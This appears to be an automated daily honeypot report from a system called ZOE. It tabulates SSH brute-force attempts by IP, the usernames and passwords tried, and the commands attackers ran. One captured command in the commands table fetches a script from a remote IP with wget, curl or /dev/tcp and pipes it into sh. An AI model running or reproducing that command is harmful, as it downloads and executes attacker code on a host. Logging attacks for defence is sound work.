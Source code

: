 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 47.251.85.16 | 38223 |
| 39.101.68.101 | 35187 |
| 8.219.63.164 | 4445 |
| 8.219.158.133 | 4270 |
| 47.109.65.194 | 2679 |
| 130.162.210.27 | 1359 |
| 8.130.102.128 | 215 |
| 143.198.145.136 | 66 |
| 103.130.215.82 | 64 |
| 109.94.172.86 | 64 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 37236 |
| admin | 18 |
| test | 16 |
| sammy | 13 |
| arma | 11 |
| hjc | 10 |
| karimderaz | 10 |
| chenzilong | 9 |
| postgres | 9 |
| bonus | 8 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 566 |
| 1 | 24 |
| 1234 | 21 |
| 111111 | 19 |
| password | 17 |
| 12345 | 12 |
| viktor | 10 |
| chenzilong | 9 |
| 12345678 | 9 |
| zhao | 8 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 120.27.223.86 | uname -s -m |
| 94.103.125.37 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
| 47.251.85.16 | echo -e "\x6F\x6B" |

